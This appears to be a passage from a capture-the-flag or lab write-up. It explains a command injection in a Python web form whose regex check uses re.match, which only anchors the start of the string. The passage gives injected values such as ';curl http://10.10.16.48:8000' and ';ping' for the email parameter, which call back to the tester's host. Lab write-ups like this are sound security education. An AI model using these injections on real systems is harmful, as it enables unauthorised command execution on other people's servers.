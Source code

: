 - Let's check `form.py` since it is included in `app.py`

![](./images/8.png)

- We have a possible `command injection` but we need to bypass `regex` check 
  - [re.match](https://docs.python.org/3/library/re.html#re.match) checks only the start of the string
  - So we can append our command

![](./images/9.png)

- The request 
  - Let's append `;curl http://10.10.16.48:8000` or `;ping -c 1 10.10.16.48` to `email` parameter
  - Start `webserver` or `tcpdump` and send request
  - And we have a connection

![](./images/10.png)